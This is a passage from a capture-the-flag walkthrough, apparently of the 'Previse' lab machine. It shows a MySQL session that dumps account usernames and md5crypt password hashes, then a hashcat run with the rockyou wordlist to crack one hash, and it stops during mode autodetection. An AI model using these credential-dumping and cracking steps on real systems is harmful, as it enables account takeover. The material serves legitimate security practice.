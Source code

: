 ```shell
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use previse;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables
    -> ;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)

mysql> describe accounts;
+------------+--------------+------+-----+-------------------+----------------+
| Field      | Type         | Null | Key | Default           | Extra          |
+------------+--------------+------+-----+-------------------+----------------+
| id         | int(11)      | NO   | PRI | NULL              | auto_increment |
| username   | varchar(50)  | NO   | UNI | NULL              |                |
| password   | varchar(255) | NO   |     | NULL              |                |
| created_at | datetime     | YES  |     | CURRENT_TIMESTAMP |                |
+------------+--------------+------+-----+-------------------+----------------+
4 rows in set (0.00 sec)

mysql> select username,password from accounts;      
+----------+------------------------------------+
| username | password                           |
+----------+------------------------------------+
| m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. |
| b0ddd    | $1$🧂llol$04L/OghOADV.ufho3gKfY. |
+----------+------------------------------------+
2 rows in set (0.00 sec)

mysql> 
```
we know the password for our account, let's try now to crack the `m55crypt` hash for the user `m4lwhere`.  
```shell
[root@kali Previse ]$ hashcat hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.5) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-1038NG7 CPU @ 2.00GHz, 2182/4428 MB (1024 MB allocatable), 2MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

```